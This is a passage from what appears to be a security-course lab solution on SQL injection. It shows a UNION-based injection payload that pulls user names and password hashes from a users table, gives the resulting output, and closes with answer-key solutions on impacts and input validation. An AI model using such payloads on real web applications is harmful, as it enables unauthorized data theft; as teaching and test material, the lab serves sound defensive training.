     - Enter this payload on the web application and select Submit, to display the following results:
  
       ```
        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: admin
        Surname: admin

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: adminadmin
        Surname: 5f4dcc3b5aa765d61d8327deb882cf99

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: GordonBrown
        Surname: 575e22bc356137a41abdef379b776dba

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: HackMe
        Surname: 97b9308f6a1f6a8524a91450dca473fa

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: PabloPicasso
        Surname: 8c7c9b1149e9de712b9e5abab45d700c

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: BobSmith
        Surname: 4a02ce029a840716c61ee8fcda10158e`
       ```

    - This matches the results on DB Fiddle:

      | first_name   | last_name                        |
      | ------------ | -------------------------------- |
      | admin        | admin                            |
      | adminadmin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordonbrown  | 575e22bc356137a41abdef379b776dba |
      | hackme       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablopicasso | 8c7c9b1149e9de712b9e5abab45d700c |
      | bobsmith     | 4a02ce029a840716c61ee8fcda10158e |

6. Answer the following mitigation strategy questions: 

    - After testing and confirming that this web application is vulnerable to SQL injection, provide a summary for your manager of the potential impacts if a malicious actor attempts SQL injection on this web application.

      - **Solution**: There are many acceptable answers, because a variety of malicious payloads can be exploited. Impacts could include leak of confidential data like passwords and hashes, and deletion or modification of confidential data.

    - Based on the malicious payloads you created, recommend a mitigation strategy to the team that built this web application to prevent a malicious user from inputting malicious payloads. 

      - **Solution**: There are many acceptable answers, all involving input validation.
      